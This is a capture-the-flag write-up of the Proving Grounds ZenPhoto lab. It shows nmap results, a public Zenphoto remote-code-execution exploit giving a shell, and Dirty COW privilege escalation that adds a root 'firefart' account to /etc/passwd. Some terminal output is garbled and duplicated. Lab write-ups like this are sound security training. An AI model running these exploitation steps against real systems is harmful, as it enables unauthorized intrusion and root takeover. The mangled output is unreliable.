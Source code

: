 ```yaml
---
title: "Proving grounds Practice: ZenPhoto"
layout: post
date: 2024-04-28 02:00
categories: writeup
---
```


Proving grounds - ZenPhoto CTF writeup.

# NMAP

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
23/tcp   open  ipp     CUPS 1.4
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
3306/tcp open  mysql   MySQL (unauthorized)
```

## 80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))

http://192.168.209.41/test/

```sh
[21:42:10] Starting: 
[21:42:12] 200 -   75B  - /index
[21:42:22] 301 -  315B  - /test  ->  http://192.168.209.41/test/
```

Upon reviewing the page source it was found that the website is using zenphoto version 1.4.1.4 [8157] (Official Build). The version is vulnerable to [Remote Code Execution Vulnerability](https://www.exploit-db.com/exploits/18083).

```sh
naveenj@hackerspace:[21:58]~/proving_grounds/ZenPhoto/exploit$ php exploit 192.168.209.41 /test/

+-----------------------------------------------------------+
| Zenphoto <= 1.4.1.4 Remote Code Execution Exploit by EgiX |
+-----------------------------------------------------------+

zenphoto-shell# 
```

## Privilege Escalation
   
Vulnerable to [CVE-2016-5195] dirtycow 2 exploit.

```text
Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
Exposure: highly probable
Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,[ ubuntu=10.04{kernel:2.6.32-21-generic} ],ubuntu=16.04{kernel:4.4.0-21-generic}
Download URL: https://www.exploit-db.com/download/40839
ext-url: https://www.exploit-db.com/download/40847
Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

### Exploitation

Find the exploit [here](https://www.exploit-db.com/exploits/40839).

```sh
ww-data@offsecsrv:/tmp$ ls
dirty.c  lp.sh	vmware-root
www-data@offsecsrv:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@offsecsrv:/tmp$ ls
dirty  dirty.c	lp.sh  vmware-root
www-data@offsecsrv:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: b7860000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@offsecsrv:/tmp$ cat /emadvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
tc
```

Check /etc/passwd file for the root user presence.

```sh
www-data@offsecsrv:/tmp$ cat /etc/passwd
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash	#user created
/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
```

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
